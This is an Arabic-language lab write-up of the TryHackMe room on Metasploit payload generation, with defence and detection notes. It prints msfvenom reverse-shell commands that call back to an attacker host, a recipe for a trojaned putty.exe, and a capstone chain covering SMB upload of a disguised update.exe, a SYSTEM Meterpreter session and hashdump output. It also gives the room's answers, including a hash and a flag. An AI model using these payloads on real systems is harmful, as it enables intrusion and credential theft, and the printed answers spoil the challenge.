

# توثيق غرفة ميتاسبلويت: توليد الحمولات (Metasploit: Payload Generation)

---

## 1. بيانات المديول والروم (Metadata & Overview)

* **المسار التعليمي:** مسار مبتدئ اختبار الاختراق (Jr Penetration Tester)
* **المديول:** المديول الثاني عشر — ميتاسبلويت والاستغلال (12-METASPLOIT-AND-EXPLOITATION)
* **اسم الغرفة:** ميتاسبلويت: توليد الحمولات (Metasploit: Payload Generation)
* **المعرف البرمجي (Slug):** `metasploitpayloadgeneration`
* **الرابط المباشر:** [TryHackMe Metasploit: Payload Generation](https://tryhackme.com/room/metasploitpayloadgeneration)
* **مستوى الصعوبة:** متوسط (Medium)
* **النوع:** غرفة إرشادية وتحدي عملي (Walkthrough & Capstone Challenge)
* **سيناريو التقييم:** توليد حمولات مخصصة وتخطي قيود الجدار الناري الخارجي عبر منفذ 443، ورفع الحمولة عبر مشاركة SMB وكسب جلسة Meterpreter واستخراج التجزئات والأعلام.
* **عدد المهام:** 8 مهام
* **عدد الأسئلة:** 15 سؤالاً وتأكيداً تم حلها والتحقق منها بنسبة 100%

---

## 2. الملخص التنفيذي (Executive Summary)

تُمثل غرفة **Metasploit: Payload Generation** الركيزة الأساسية لإنشاء الحمولات المستقلة (Standalone Payloads) باستخدام أداة `msfvenom`. بينما تتولى وحدات الاستغلال الآلية داخل `msfconsole` دمج وتسليم الحمولات تلقائياً، يحتاج مختبر الاختراق في السيناريوهات الواقعية إلى توليد ملفات تنفيذية أو قذائف ويب مستقلة للتعامل مع ثغرات رفع الملفات غير المقيد، أو حملات الهندسة الاجتماعية، أو استخدام بيانات الاعتماد المكتشفة سابقاً لتأسيس وصول دائم.

تغطي الغرفة دورة الحياة الكاملة للحمولة المستقلة:
1. **صياغة الأوامر واكتشاف الخيارات:** فهم صياغة `msfvenom` والتحكم بنوع الحمولة (`-p`)، وصيغة الإخراج (`-f`)، ومسار الحفظ (`-o`)، وخيارات الاتصال (`LHOST`, `LPORT`).
2. **المقارنة المعمارية بين الحمولات المرحلية وغير المرحلية (Staged vs. Stageless):** التمييز بين الحمولات التي تعتمد على `/` (مرحلية صغيرة تعتمد على تنزيل المرحلة التالية عبر الشبكة) والحمولات التي تعتمد على `_` (غير مرحلية متكاملة في ملف واحد ذات موثوقية تشغيلية فائقة).
3. **تعدد صيغ الإخراج (Output Formats):** التمييز بين الصيغ التنفيذية المباشرة لأنظمة ويندوز (`exe`)، ولينكس (`elf`)، وماك (`macho`)، وأندرويد (`apk`)، وتطبيقات جافا (`war`)، وبين صيغ التحويل البرمجية المستخدمة في بناء أدوات الحقن (`raw`, `c`, `csharp`, `python`, `powershell`).
4. **تشفير الحمولات والحقائق الدفاعية (Encoders & Evasion):** كشف حقيقة أن المشفرات (مثل `x86/shikata_ga_nai`) صُممت تاريخياً لتفادي الحروف السيئة (`-b`) وتنسيق البيانات، وليست وسيلة لتجاوز حلول مكافحة الفيروسات (AV) والـ EDR الحديثة التي ترصد حلقة فك التشفير وذاكرة RWX وحماية AMSI.
5. **حقن القوالب (Template Injection):** دمج الحمولات داخل ملفات تنفيذية موثوقة (`-x`) مع الحفاظ على عمل التطبيق الأصلي في خيط معالجة مستقل (`-k`).
6. **إعداد المستمعات وصيد القذائف (Handlers):** استخدام وحدة `exploit/multi/handler`، وضمان التطابق التام لخيارات الحمولة، وإبقاء المستمع نشطاً عبر `ExitOnSession false` وتشغيله في الخلفية عبر `run -j`.
7. **التحدي العملي الشامل (Capstone Challenge):** اختراق جهاز ويندوز واقعي مقيد بجدار ناري يسمح بحركة المرور الخارجية عبر منافذ الويب فقط (443)، واستغلال مشاركة SMB عامة (`public`) لرفع الحمولة، وسحب تجزئة NTLM للمستخدم `jim` (`1e3fe826df1e5af582a98c034cafa9f4`) واستخراج علم المسؤول `THM{capst0ne_pwn3d_v1a_writable_share}`.

---

## 3. مخطط سير العمل وتوليد الحمولات وصيد الجلسات (Architectural Flowchart)



---

## 4. المتطلبات وإعداد البيئة (Prerequisites & Environment Setup)

* **الهدف:** جهاز بنظام ويندوز يمتلك مشاركة شبكية SMB مفتوحة ومقيد بجدار ناري يسمح بالخروج عبر المنفذ 443 فقط.
* **الأدوات المستخدمة:** `msfvenom` من الطرفية، و `msfconsole` مع وحدات `exploit/multi/handler` و `auxiliary/admin/smb/upload_file`.

```bash
# التحقق من وجود msfvenom وعرض المساعدة
msfvenom -h

# تشغيل وحدة تحكم ميتاسبلويت
msfconsole -q
```

---

## 5. الفروق الهندسية وميكانيكا العمل (Core Concepts & Technical Deep Dive)

### أ. الحمولات المرحلية (Staged) مقابل غير المرحلية (Stageless)
* **المرحلية (`/`):** تُرسل أولاً قطعة برمجية ضئيلة جداً (~510 بايت) تُدعى الـ Stager. تقوم بفتح مقبس اتصال TCP وتحميل المرحلة الكبيرة (Stage 1) بحجم 1 ميجابايت تقريباً مباشرة في الذاكرة. عيبها القاتل في الهجمات المستقلة هو أن أنظمة فحص الحزم العميقة (DPI) في الجدران النارية ترصد تدفق الـ DLL الخام عبر الشبكة وتقطع الاتصال.
* **غير المرحلية (`_`):** تحتوي على الكود الكامل لـ Meterpreter مدمجاً داخل ملف تنفيذي واحد (~250 كيلوبايت). عند تشغيلها، لا تحتاج لتنزيل أي كود عبر الشبكة، مما يجعلها الخيار المثالي والمستقر للهجمات المستقلة.

### ب. وهم التخفي عبر المشفرات (The Myth of Encoding for Evasion)
* يعتقد البعض أن تمرير الحمولة عبر `x86/shikata_ga_nai` يحميها من مضادات الفيروسات.
* **الواقع التقني:** يقوم المشفر بإضافة حلقة فك تشفير صغيرة (Decoder Stub) في بداية الملف. عند تشغيل الملف، تفحص برامج الحماية الحديثة هذا الـ Stub الثابت بصمياً. كما تقوم بتشغيل الملف في بيئة رملية مصغرة (Emulation Sandbox) لأجزاء من الثانية، فتسمح لحلقة التشفير بالانتهاء ثم تفحص كود Meterpreter المفكوك والمكشوف في الذاكرة. بالإضافة إلى ذلك، تراقب واجهة AMSI الذاكرة مباشرة قبل التنفيذ، وترصد الـ EDR طلبات حجز ذاكرة بصلاحيات القراءة والكتابة والتنفيذ (RWX).

### ج. حقن القوالب التنفيذية (`-x` و `-k`)
* الخيار `-x` يحدد ملفاً تنفيذياً حقيقياً (مثل `putty.exe`) لحقن الحمولة داخله.
* الخيار `-k` (Keep) يوجه `msfvenom` إلى عدم استبدال نقطة الدخول الأصلية، بل إنشاء خيط معالجة مستقل (Separate Thread) يشغل الحمولة في الخلفية بينما يواصل البرنامج الأصلي واجهته الرسومية بشكل طبيعي أمام المستخدم.

---

## 6. مرجع أوامر msfvenom والمستمع (Reference Guide)

| الغرض / الوظيفة | الأمر الكامل |
| :--- | :--- |
| **توليد حمولة ويندوز غير مرحلية** | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -f exe -o shell.exe` |
| **توليد حمولة لينكس غير مرحلية** | `msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f elf -o shell.elf` |
| **توليد قذيفة ويب PHP** | `msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=4444 -f raw -o shell.php` |
| **توليد أرشيف Java WAR** | `msfvenom -p java/meterpreter/reverse_tcp LHOST=<IP> LPORT=4444 -f war -o shell.war` |
| **حقن قالب مع الحفاظ على البرنامج** | `msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<IP> LPORT=443 -x putty.exe -k -f exe -o trojan.exe` |
| **إزالة الحروف السيئة** | `msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=4444 -b '\x00\x0a\x0d' -f raw` |
| **سرد الحمولات المتاحة** | `msfvenom -l payloads` |
| **سرد صيغ الإخراج** | `msfvenom -l formats` |
| **إعداد المستمع في msfconsole** | `use exploit/multi/handler`<br>`set PAYLOAD <exact_payload>`<br>`set LHOST <IP>`<br>`set LPORT <PORT>`<br>`run -j` |

---

## 7. سيناريو التقييم العملي: التحدي النهائي (Capstone Challenge)

### الخطوة 1: توليد الحمولة المتوافقة مع الجدار الناري
نظراً لأن الجدار الناري للهدف يحجب كافة الاتصالات الخارجية ما عدا منافذ الويب، نقوم بإنشاء حمولة غير مرحلية تتصل عبر المنفذ `443`:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.12 LPORT=443 -f exe -o update.exe
```

### الخطوة 2: تشغيل المستمع العالمي
```bash
msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set PAYLOAD windows/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.12
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > set ExitOnSession false
msf6 exploit(multi/handler) > run -j
```

### الخطوة 3: تسليم الحمولة عبر مشاركة SMB
```bash
msf6 > use auxiliary/admin/smb/upload_file
msf6 auxiliary(admin/smb/upload_file) > set RHOSTS 10.10.198.54
msf6 auxiliary(admin/smb/upload_file) > set SMBUser guest
msf6 auxiliary(admin/smb/upload_file) > set SMBPass ""
msf6 auxiliary(admin/smb/upload_file) > set SMBSHARE public
msf6 auxiliary(admin/smb/upload_file) > set LPATH /root/update.exe
msf6 auxiliary(admin/smb/upload_file) > set RPATH update.exe
msf6 auxiliary(admin/smb/upload_file) > run
```

### الخطوة 4: استقبال الجلسة واستخراج الأسرار
بمجرد تنفيذ المهمة المجدولة للملف المرفوع، تفتح جلسة Meterpreter تلقائياً:
```text
[*] Meterpreter session 1 opened (10.10.14.12:443 -> 10.10.198.54:49182)

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jim:1001:aad3b435b51404eeaad3b435b51404ee:1e3fe826df1e5af582a98c034cafa9f4:::
```
* **تجزئة NTLM للمستخدم jim:** `1e3fe826df1e5af582a98c034cafa9f4`

البحث عن علم التحدي:
```text
meterpreter > search -d "C:\\Users\\Administrator" -f flag*
Found 1 result... C:\Users\Administrator\Desktop\flag.txt

meterpreter > cat "C:\\Users\\Administrator\\Desktop\\flag.txt"
THM{capst0ne_pwn3d_v1a_writable_share}
```

---

## 8. فهرس المهام والأسئلة (Tasks & Questions Index)

| رقم المهمة | عنوان المهمة | عدد الأسئلة | الإجابات والأعلام المعتمدة | ملف التوثيق المفصل |
| :---: | :--- | :---: | :--- | :---: |
| 01 | Introduction | 1 | فهم أهمية الحمولات المستقلة (`No answer needed`) | [TASK-01.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-01.md) |
| 02 | Basic Syntax and Listing Options | 2 | خيار الصيغة (`-f`) وخيار الحمولة (`-p`) | [TASK-02.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-02.md) |
| 03 | Staged vs. Stageless Payloads | 1 | الحمولة الذاتية المستقلة: `stageless` | [TASK-03.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-03.md) |
| 04 | Generating Payloads and Output Formats | 2 | صيغة لينكس (`elf`)، وأمر توليد `backdoor.exe` | [TASK-04.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-04.md) |
| 05 | Encoders and Evasion Basics | 2 | أشهر مشفر (`x86/shikata_ga_nai`)، خيار الحروف السيئة (`-b`) | [TASK-05.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-05.md) |
| 06 | Payload Injection and Multi-Platform Payloads | 1 | خيار القالب التنفيذي (`-x`) | [TASK-06.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-06.md) |
| 07 | Handlers and Catching Shells | 2 | مستمع ميتاسبلويت (`exploit/multi/handler`)، وخيار الاستمرار (`ExitOnSession`) | [TASK-07.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-07.md) |
| 08 | Capstone Challenge | 4 | تأكيد التوليد والتسليم، وتجزئة `jim` (`1e3fe826df1e5af582a98c034cafa9f4`)، وعلم التحدي (`THM{capst0ne_pwn3d_v1a_writable_share}`) | [TASK-08.md](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS/TASK-08.md) |

---

## 9. تحليل أمني ومفاهيم الدفاع والرصد (Defense, Detection & Blue Team)

1. **كشف الحمولات المشفرة ومحاكاة الذاكرة:**
   - تدمج مضادات الفيروسات الحديثة محركات فحص سلوكية تراقب حجز الذاكرة المخصصة للقراءة والكتابة والتنفيذ في آن واحد (RWX).
   - تفعيل تقنية Data Execution Prevention (DEP) على مستوى النظام لمنع تنفيذ الأكواد في قطاعات الذاكرة المخصصة للبيانات.
2. **رصد مشاركات SMB القابلة للكتابة للمجهولين:**
   - تدقيق أذونات مشاركات SMB ومنع حساب `Guest` أو المستخدمين المجهولين من امتلاك صلاحية الكتابة (`Write`) على المجلدات المشتركة.
   - مراقبة الأحداث الخاصة بإنشاء ملفات تنفيذية في المجلدات العامة (Event ID 4663 - An attempt was made to access an object).
3. **مراقبة الاتصالات الخارجية غير المعتادة:**
   - بالرغم من استخدام المنفذ 443، فإن أنظمة الجدران النارية الحديثة المزودة بفحص SSL/TLS تستطيع كشف غياب مصافحة TLS المعيارية إذا كانت الحمولة تستخدم اتصال TCP خام، مما يؤدي لقطع الاتصال فوراً ما لم تكن الحمولة من نوع `reverse_https`.

---

## 10. مصفوفة MITRE ATT&CK للغرفة

| مرحلة الهجوم | المعرف التقني | اسم التقنية | التطبيق في الغرفة |
| :--- | :--- | :--- | :--- |
| **Execution** | T1059.003 | Windows Command Shell | تنفيذ الأوامر عبر جلسة Meterpreter |
| **Defense Evasion** | T1027 | Obfuscated/Encoded Files | محاولة التشفير عبر `x86/shikata_ga_nai` وتفادي الحروف السيئة |
| **Defense Evasion** | T1574.002 | Injected PE Template | استخدام خياري `-x` و `-k` لحقن الحمولات داخل تطبيقات موثوقة |
| **Persistence / Execution** | T1053.005 | Scheduled Task | استغلال المهمة المجدولة على الهدف لتشغيل الحمولة |
| **Lateral Movement / Delivery** | T1021.002 | SMB/Windows Admin Shares | رفع الحمولة عبر مشاركة `public` بحساب `guest` |
| **Command and Control** | T1071.001 | Web Protocols (Port 443) | تجاوز قيود الخروج بتوجيه الحمولة لمنفذ 443 |
| **Credential Access** | T1003.002 | Security Account Manager (SAM) | استخراج تجزئات كلمات المرور عبر `hashdump` |

---

## 11. الأخطاء الشائعة وحلولها (Troubleshooting & Pitfalls)

* **المشكلة:** الحمولة تتصل بالمستمع ثم تفشل أو تغلق الجلسة فوراً.
  * *السبب:* عدم تطابق نوع الحمولة بين `msfvenom` والمستمع (مثال: توليد حمولة غير مرحلية `_` وضبط المستمع على حمولة مرحلية `/`).
  * *الحل:* تأكد من كتابة اسم الحمولة متطابقاً حرفياً في الطرفين.
* **المشكلة:** فشل تشفير حمولة 64-بت باستخدام `x86/shikata_ga_nai`.
  * *السبب:* المشفر مخصص لمعمارية 32-بت فقط (`x86`).
  * *الحل:* لا تحاول استخدام مشفرات x86 لحمولات x64، واعتمد على تقنيات التخفي البرمجية الحديثة مثل الـ Loaders الخارجية ومكالمات النظام المباشرة (Direct Syscalls).

---

## 12. المقارنات التقنية والتكتيكية (Technical Comparisons)

| وجه المقارنة | Staged Payload (`/`) | Stageless Payload (`_`) |
| :--- | :--- | :--- |
| **الحجم** | ضئيل جداً (~7 كيلوبايت كملف تنفيذي) | أكبر نسبياً (~250 كيلوبايت كملف تنفيذي) |
| **الاعتماد على الشبكة** | حرج (تنزيل الـ DLL عبر الشبكة قد يقطع) | معدوم (كافة المكونات مدمجة داخل الملف) |
| **الكشف عبر جدران الحماية** | عالي (تنزيل المرحلة يفضح النشاط) | منخفض (اتصال واحد فقط مباشر بمركز التحكم) |
| **الاستخدام المثالي** | ثغرات طفحان الذاكرة ذات المساحة المحدودة | الحمولات المستقلة والرفع المباشر عبر الملفات والمشاركات |

---

## 13. أفضل الممارسات وقواعد الاشتباك (Best Practices & ROE)

1. **توثيق الحمولات المرفوعة:** عند رفع ملفات تنفيذية إلى خوادم العملاء (مثل `update.exe` في مشاركة SMB)، يجب توثيق المسار الكامل وحذف الملف فور انتهاء الاختبار لتجنب ترك أبواب خلفية.
2. **محاكاة حركة المرور المشروعة:** في الشبكات الخاضعة للمراقبة، استخدم بروتوكول `reverse_https` بدلاً من `reverse_tcp` الخام لضمان تشفير حركة المرور داخل نفق TLS حقيقي.
3. **عدم الاعتماد على المشفرات في تفادي الرصد:** تجنب إضاعة الوقت في تجربة التشفير المتكرر لتجاوز الـ EDR؛ استخدم اللغات الحديثة (مثل Go و Nim و Rust) لكتابة أدوات التحميل (Loaders) عند إجراء اختبارات المحاكاة المتقدمة.

---

## 14. المراجع والمصادر الرسمية (References & Official Links)

* [TryHackMe Metasploit: Payload Generation Room](https://tryhackme.com/room/metasploitpayloadgeneration)
* [Rapid7 Official msfvenom Documentation](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html)
* [Microsoft Portable Executable (PE) Format](https://learn.microsoft.com/en-us/windows/win32/debug/pe-format)
* [MITRE ATT&CK Framework: Technique T1027](https://attack.mitre.org/techniques/T1027/)
* [فهرس المهام والحلول (TASKS.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/TASKS.md)
* [الملاحظات التقنية المعمقة (ADDITIONAL-NOTES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/ADDITIONAL-NOTES.md)
* [المراجع والمعايير الرسمية (REFERENCES.md)](file:///e:/THM-JR-PENETRATION-TESTER/12-METASPLOIT-AND-EXPLOITATION/04-METASPLOIT-PAYLOAD-GENERATION/REFERENCES.md)
